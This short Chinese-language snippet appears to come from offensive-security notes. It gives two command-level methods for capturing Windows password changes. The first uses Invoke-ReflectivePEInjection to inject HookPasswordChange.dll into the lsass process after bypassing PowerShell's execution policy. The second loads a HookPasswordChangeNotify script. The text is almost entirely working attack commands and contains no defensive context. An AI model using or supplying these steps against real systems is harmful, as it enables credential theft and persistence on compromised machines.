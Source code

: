 ## Method 1
```bash
# 下载
https://github.com/clymb3r/Misc-Windows-Hacking
https://github.com/clymb3r/PowerShell/blob/master/Invoke-ReflectivePEInjection/Invoke-ReflectivePEInjection.ps1
#使用 Visual Studio Install 编译
```
使用静态库编译


将编译后的文件上传后执行
```powershell
Set-ExecutionPolicy bypass
Import-Module .\Invoke-ReflectivePEInjection.ps1
Invoke-ReflectivePEInjection -PEPath HookPasswordChange.dll -procname lsass
```
## Method 2
```powershell
# 下载
https://github.com/kevien/PasswordchangeNotify/blob/master/HookPasswordChangeNotify.ps1
Set-ExecutionPolicy bypass
Import-Module .\HookPasswordChangeNotify.ps1
```
